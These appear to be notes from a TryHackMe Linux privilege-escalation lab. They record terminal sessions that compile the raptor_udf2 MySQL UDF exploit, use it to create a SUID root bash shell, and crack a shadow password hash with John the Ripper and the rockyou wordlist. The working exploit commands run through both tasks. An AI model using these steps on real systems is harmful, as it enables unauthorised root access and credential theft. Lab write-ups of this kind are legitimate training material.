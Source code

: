 Linux PrivEsc

#Task 2
'''
user@debian:~$ cd /home/user/tools/mysql-udf                                                                                                                                                                                                                                                                               
user@debian:~/tools/mysql-udf$ ls -ltr                                                                                                                                                                                                                                                                                     
total 4                                                                                                                                                                                                                                                                                                                    
-rw-r--r-- 1 user user 3378 May 15 05:55 raptor_udf2.c                                                                                                                                                                                                                                                                     
user@debian:~/tools/mysql-udf$ gcc -g -c raptor_udf2.c -fPIC                                                                                                                                                                                                                                                               
user@debian:~/tools/mysql-udf$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc                                                                                                                                                                                                               
user@debian:~/tools/mysql-udf$ mysql -u root                                                                                                                                                                                                                                                                               
Welcome to the MySQL monitor.  Commands end with ; or \g.                                                                                                                                                                                                                                                                  
Your MySQL connection id is 35                                                                                                                                                                                                                                                                                             
Server version: 5.1.73-1+deb6u1 (Debian)                                                                                                                                                                                                                                                                                   
                                                                                                                                                                                                                                                                                                                           
Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.                                                                                                                                                                                                                                               
                                                                                                                                                                                                                                                                                                                           
Oracle is a registered trademark of Oracle Corporation and/or its                                                                                                                                                                                                                                                          
affiliates. Other names may be trademarks of their respective                                                                                                                                                                                                                                                              
owners.                                                                                                                                                                                                                                                                                                                    
                                                                                                                                                                                                                                                                                                                           
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                                                                                           
mysql> use mysql;                                                                                                                                                                                                                                                                                                          
Reading table information for completion of table and column names                                                                                                                                                                                                                                                         
You can turn off this feature to get a quicker startup with -A                                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                                                                                           
Database changed                                                                                                                                                                                                                                                                                                           
mysql> create table foo(line blob);                                                                                                                                                                                                                                                                                        
Query OK, 0 rows affected (0.01 sec)                                                                                                                                                                                                                                                                                       
                                                                                                                                                                                                                                                                                                                           
mysql> insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));                                                                                                                                                                                                                                     
Query OK, 1 row affected (0.00 sec)                                                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                           
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';                                                                                                                                                                                                                                             
Query OK, 1 row affected (0.01 sec)                                                                                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                           
mysql> create function do_system returns integer soname 'raptor_udf2.so';                                                                                                                                                                                                                                                  
Query OK, 0 rows affected (0.00 sec)                                                                                                                                                                                                                                                                                       
                                                                                                                                                                                                                                                                                                                           
mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
+------------------------------------------------------------------+
| do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash') |
+------------------------------------------------------------------+
|                                                                0 |
+------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql> exit
Bye
user@debian:~/tools/mysql-udf$ /tmp/rootbash -p
rootbash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
rootbash-4.1# 
'''

# Task 3
kali@franka:~/Desktop/Tryhackme/linux-priv-esc$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
[sudo] password for kali: 
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)
1g 0:00:00:00 DONE (2020-08-12 21:45) 2.941g/s 4517p/s 4517c/s 4517C/s kucing..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed

